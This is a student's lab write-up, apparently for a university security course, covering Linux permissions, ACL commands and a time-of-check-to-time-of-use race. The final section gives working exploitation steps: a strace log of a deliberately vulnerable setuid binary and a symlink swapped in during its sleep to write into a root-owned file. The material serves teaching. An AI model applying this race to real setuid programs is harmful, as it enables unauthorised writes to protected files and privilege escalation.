


## Part A - File System Permissions

**Q1: Write a bash function to convert a GID to a group name using the Linux group file**

```bash
#!/bin/bash

gidSearch()
{
	cat /etc/group | grep -w $1 | cut -d : -f1
}
```

One would need to run ```source <script-name>.sh``` bring this script into the context of the current shell. 
Alternative would be to add “export PATH = $PATH:$pwd” in your bashrc so current parent shell can find the command gidSearch

Here is how the invocation looks like

```bash
comp4108@node00:$ gidSearch 100
users

comp4108@node00:$ gidSearch 45
sasl
```

**Q2 Write a command to change all the directories with permissions 777 in /A2/Haystack to have permissions 750 instead**

```diff
> sudo find . -type d -perm 777 -exec chmod 750 {} \;
```

In the command above, ```\;``` is for escaping the ```;``` character so bash does not interpret it as a command delimeter

**Q3 Find all the binary files in /usr/bin with the setuid bit set.**

```diff 
> find . -perm /4000
```

000 refers to the regular permission bits and 4 refers to the setuid bit. / means find files with at least one bit set from 4000.

## Part B - Access Control Lists

/A2/Gotham has following directory tree: 

```
Gotham
|
|-- Arkham
|
|-- GothamPD
|
'-- WayneManor
    |
    |-- Batcave
    |
    '-- MasterBedroom
```

**1. Give the ACL for the top level Gotham directory** 
```diff 
> getfacl /A2/Gotham
``` 

**2. Use chmod to add rx permissions for the other category to Gotham and ALL its sub-directories.** 
```diff
> chmod o+rx -R /A2/Gotham
```

**3. Use setfacl to add read and write permissions to Gotham, Arkham and GothamPD for the user jgordon**
```diff
> setfacl -m jgordon:rw /A2/Gotham/ /A2/Gotham/Arkham/ /A2/Gotham/GothamPD/
```

**4. Use setfacl to add read, write, and execute permissions toWayneManor, Batcave and MasterBedroom for the user bwayne** 
```diff
> setfacl -m bwayne:rwx /A2/Gotham/WayneManor/ /A2/Gotham/WayneManor/Batcave/ /A2/Gotham/WayneManor/MasterBedroom/ 
```

**5. Use setfacl to remove the ACL entries on Arkham for the users skyle and ocobblepot** 
```diff
> setfacl -x u:ocobblepot Arkham/
> setfacl -x u:skyle Arkham/
```

Results after removing ACL entries: 


**6. Give the ACL for all subdirectories of Gotham.** 
```diff
> find /A2/Gotham/ -type d -exec getfacl {} \; 
```

## Part C - Race Conditions - TOCTOU 

### Slow (Easy difficulty) 
```diff 
- Skeleton code is provided in Racing folder
```

This involves learning to exploit a classic time of check versus time of use (ToCToU) vulnerability (https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) in order to gain root access on the VM. We are given two files ```root_file``` and ```vuln_slow```

```root_file``` is owned by root and has no write permissions for any other users. 

```
student@COMP4108-a2:/A2/Racing/Slow$ ls -l root_file
-rw-r--r-- 1 root root 319 Sep 14  2012 root_file
```

```vuln_slow``` binary has setuid bit set 
```
student@COMP4108-a2:/A2/Racing/Slow$ ls -l vuln_slow
-rwsrwsr-x 1 root root 9116 Sep 14  2012 vuln_slow
```

It takes two arguments: a delay in seconds and a message to write to a debug file.

```
student@COMP4108-a2:/A2/Racing/Slow$ ./vuln_slow
Syntax: ./vuln_slow [delay seconds] [message]
```

vuln_slow binary works by checking the permissions on its debug file, sleeping for the provided number of seconds, and then writing to the debug file. 

Our objective is to exploit vuln_slow into writing a message you provide into root_file.

**WRITEUP:**

Let's run strace for tracing syscalls: 

```diff 

> student@COMP4108-a2:/A2/Racing/Slow$ strace ./vuln_slow 60 hacked
```

```c 

execve("./vuln_slow", ["./vuln_slow", "60", "hacked"], [/* 23 vars */]) = 0
brk(0)                                  = 0xa54000
fcntl(0, F_GETFD)                       = 0
fcntl(1, F_GETFD)                       = 0
fcntl(2, F_GETFD)                       = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c757000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=16342, ...}) = 0
mmap(NULL, 16342, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f9c5c753000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\31\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1807032, ...}) = 0
mmap(NULL, 3921080, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f9c5c179000
mprotect(0x7f9c5c32d000, 2093056, PROT_NONE) = 0
mmap(0x7f9c5c52c000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b3000) = 0x7f9c5c52c000
mmap(0x7f9c5c532000, 17592, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c532000
close(3)                                = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c752000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c751000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c750000
arch_prctl(ARCH_SET_FS, 0x7f9c5c751700) = 0
mprotect(0x7f9c5c52c000, 16384, PROT_READ) = 0
mprotect(0x600000, 4096, PROT_READ)     = 0
mprotect(0x7f9c5c759000, 4096, PROT_READ) = 0
munmap(0x7f9c5c753000, 16342)           = 0
brk(0)                                  = 0xa54000
brk(0xa75000)                           = 0xa75000
umask(0)                                = 02
open("/home/student/.debug_log", O_RDWR|O_CREAT|O_APPEND, 0666) = 3
access("/home/student/.debug_log", W_OK) = 0
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c756000
write(1, "Sleeping for 60 seconds.\n", 25Sleeping for 60 seconds.
) = 25
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({60, 0},
0x7ffd44821de0)      = 0
write(1, "Writing debug message.\n", 23Writing debug message.
) = 23
open("/home/student/.debug_log", O_RDWR|O_CREAT|O_APPEND, 0666) = 4
fstat(4, {st_mode=S_IFREG|0666, st_size=0, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c755000
write(4, "hacked\n", 7)                 = 7
close(4)                                = 0
munmap(0x7f9c5c755000, 4096)            = 0
write(1, "Goodbye!\n", 9Goodbye!
)               = 9
exit_group(0)
```

From the strace log, we notice that 

```access("/home/student/.debug_log", W_OK) = 0``` syscall is successful. After this, the process waits for 60 seconds using ```nanosleep({60, 0},```. 

It seems like the binary is trying to check write permission using ```access()```. If that is successful, it writes our message to ```.debug_log``` file. 

During the time when binary is sleeping, what if we create a symlink from ```.debug_log``` to ```root_file```. The binary cannot assume the state managed by the operating system will not change between system calls. This is why we are able to exploit the vulnurability using external input. 

The exploitation process is: 
- Run the binary using command ```./vuln_slow 60 hacked_by_anon```. It should be in sleep for 60 seconds. 
- During these 60 seconds, run ```ln -s /A2/Racing/Slow/root_file /home/student/.debug_log``` in a separate terminal





SUCCESS! 

```diff
- NOTE: path to directories might change for you. It might not be /A2/Racing/Slow for root_file and /home/student/ for .debug_log file
```
